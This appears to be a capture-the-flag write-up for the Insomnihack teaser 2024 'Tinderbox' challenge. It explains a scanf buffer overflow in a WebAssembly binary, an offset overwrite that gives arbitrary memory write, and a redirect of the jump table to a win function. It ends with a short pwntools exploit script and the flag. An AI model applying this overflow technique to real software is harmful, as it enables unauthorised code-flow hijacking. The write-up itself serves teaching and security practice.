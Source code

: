 ```yaml
---
title: 'Insomnihack teaser 2024'
challenge: 'Tinderbox'
date: 2024-01-22T00:00:00+01:00
author: 'v0lp3 & SimozB & Bonfra'
description: 'Writeup for challenge TinderBox of Insomnihack teaser 2024' 
cover: '/img/Insomnihack_teaser_2024/logo.png'
tags: ['pwn', 'misc']
draft: false
---
```


```
My friend is not a great developer but he insisted to work on a prototype in C. He said he compiled the program to WebAssembly and "it is super secure" but I am doubtful.

nc tinderbox.insomnihack.ch 7171

Note: the server runs the module using `Wasmtime 16.0.0` and the runtime has access to the current directory.
```

### Quick look

The challenge attachment is a wasm file as confirmed by the `file` command.

```bash
$ file bin.wasm
bin.wasm: WebAssembly (wasm) binary module version 0x1 (MVP)
```

We can run this binary with the [Wasmtime](https://github.com/bytecodealliance/wasmtime) runtime:

```bash
$ wasmtime bin.wasm
Tell me your name:
```

We can provide arbitrary length name but no visible crash happens in any case. After we enter a string a small menu is displayed:

```bash
$ wasmtime bin.wasm
Tell me your name: naslab
1 - I made a typo in my name!
2 - Do some math for me.
3 - Tell me a joke!
```

The behavior of the options is as follows:

- (1) allows you to change the first letter of the name
- (2) take a number as input and calculate $37 - your input$
- (3) print a text

We can use the [ghidra-wasm-plugin](https://github.com/nneonneo/ghidra-wasm-plugin) to disassemble it in Ghidra.

### Vulnerability

{{< image src="/img/Insomnihack_teaser_2024/get_name.png" position="center" >}}
Figure 1: Get name function

After disassembling it in Ghidra we immediately notice that the function `get_name` uses `scanf` with the format `%s`. So it's clear that there is a buffer overflow here.
We can see that there is a function called `win` that we need to call to print the flag and that is referenced by a function table as shown below.

{{< image src="/img/Insomnihack_teaser_2024/jump_table.png" position="center" >}}
Figure 2: Function table

{{< image src="/img/Insomnihack_teaser_2024/setValues.png" position="center" >}}
Figure 3: setValues function

Some minimal refactoring later we found that the `setValues` function (traceback: `setValues` <= `fixTypo` <=  `menu` <= `__original_main`) can be abused to get arbitrary write primitive on the memory and get the flag. Here is why:

- The buffer where name is stored is allocated in the `__original_main` function, so the buffer overflow occurs in that function context
- The `__original_main` function defines a `jump_table_offsets` which contains some offsets that are used to call the correct function in the function table shown above.
- The `__original_main` function calls the `menu` function and passes `name`, `jump_table_offsets` pointers and a variable `name_offset` containing $0$. This offset is used in the `setValues` function to referencing to first character of the 'name' buffer. In short, it is the offset of the character modified by `fixTypo`.

{{< image src="/img/Insomnihack_teaser_2024/original_main.png" position="center" >}}
Figure 4: original_main function

We can't use buffer overflow directly to overwrite `jump_table_offsets` because the stack layout is the following:
N.B. in this stack representation (obviously) numbers in square bracket below are refered to the size of the array.

```
+________________________+
|                        |
|  jump_table_offsets[4] |
|________________________|
|                        |
|        name[16]        |
|________________________|
|                        |
|       name_offset      |
|________________________|
|                        |
|        something       |
|________________________|
|                        |
|           ret          |
+________________________+

```

We can exploit this to change the values into `name_offset` to negative value, and gain arbitrary memory write with `setValues`functions, basically we need only to modify `jump_tables_offset[1]` from value $3$ to $2$, so we'll call `win` function when we run third option in the menu.

{{< image src="/img/Insomnihack_teaser_2024/menu.png" position="center" >}}
Figure 3: menu function

After some tries we found out that the right offset to modify `jump_tables_offset[1]` is $-12$. 

Here is the script used to get the flag:

```python
from pwn import *

p = remote("tinderbox.insomnihack.ch", 7171)
p.sendlineafter("name:", b"A" * 16 + p32(-12, signed=True))
p.sendlineafter("joke!", "1")
p.sendlineafter("there", "2")
p.sendlineafter("joke!", "3")

p.interactive()
```

> INS{L00k_mUm!W1th0ut_toUch1ng_RIP!}
